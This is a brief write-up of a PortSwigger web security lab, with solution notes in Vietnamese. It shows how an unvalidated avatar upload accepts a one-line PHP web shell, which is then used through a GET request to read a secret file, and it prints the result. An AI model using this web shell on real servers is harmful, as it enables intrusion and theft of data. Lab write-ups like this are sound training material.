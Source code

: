 # [Lab: Remote code execution via web shell upload](https://portswigger.net/web-security/file-upload/lab-file-upload-remote-code-execution-via-web-shell-upload)

This lab contains a vulnerable image upload function. It doesn't perform any validation on the files users upload before storing them on the server's filesystem.

To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file  `/home/carlos/secret`. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials:  `wiener:peter`

## Solution
đăng nhập bằng tài khoản ở description

lỗ hổng xuất hiện ở phần upload avatar, có thể upload file php

nội dung file upload test.php:
```php
<?php echo system($_GET['command']); ?>
```

Chọn `open image in new tab` ta được https://0a5e005a04282213c0f85ef400a60041.web-security-academy.net/files/avatars/test.php

```
GET /files/avatars/test.php?command=cat+/home/carlos/secret HTTP/1.1
```
là ra kết quả:
```
9XwzsPBUTwpv6bLESRqLTK11EE1WC5Mg9XwzsPBUTwpv6bLESRqLTK11EE1WC5Mg
```

Kết quả bị in 2 lần ?